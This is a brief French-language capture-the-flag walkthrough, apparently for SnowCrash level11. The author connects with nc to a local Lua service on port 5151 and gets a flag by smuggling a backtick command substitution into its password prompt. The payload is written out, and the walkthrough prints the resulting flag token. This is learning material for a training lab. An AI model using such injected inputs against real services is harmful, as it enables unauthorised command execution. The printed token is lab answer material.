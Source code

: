 ls -la
on trouve un ex level11.lua
je le cat et je vois qu'il utilise un server:
"127.0.0.1", 5151

premier chose qui me vient tester avec un nc

nc 127.0.0.1 5151
il me demande un password
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: qwer
Erf nope..

imaginon c comme les premier flag si il a un echo qui dit getflag ca peut marcher
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: echo getflag
Erf nope..

je vais essayer d'envoyer le retour dans un fichier
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: echo `getflag` > /tmp/test2
Erf nope..

level11@SnowCrash:~$ cat /tmp/test2
echo Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

le echo n'etait pas obligatoir mais YES
